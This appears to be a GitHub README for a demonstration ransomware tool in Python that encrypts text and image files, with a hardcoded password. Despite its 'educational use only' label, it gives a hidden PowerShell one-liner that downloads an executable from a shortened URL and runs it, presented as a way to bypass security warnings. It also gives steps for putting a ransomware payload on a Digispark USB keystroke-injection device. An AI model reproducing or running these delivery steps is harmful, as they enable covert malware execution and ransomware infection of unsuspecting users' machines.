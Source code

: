 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**

**Version 1.0**

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in given directory. Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla). 

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy

```
$ ./encrypt.py
```
OR

Bypass security warnings and download and execute the file instantly by typing the follow code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/5e8yp8mf', \"$env:UserProfile\Documents\malware.exe\");Start-Process \"$env:UserProfile\Documents\malware.exe\" -WorkingDirectory \"$env:UserProfile\Documents\""
```

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To setup Digispark payload:
- [Setup Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-10-31_12-24](https://github.com/therealhalonen/PhishSticks/assets/112076418/490686db-b5c4-4c00-9f7f-bc3006bd742b)

Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
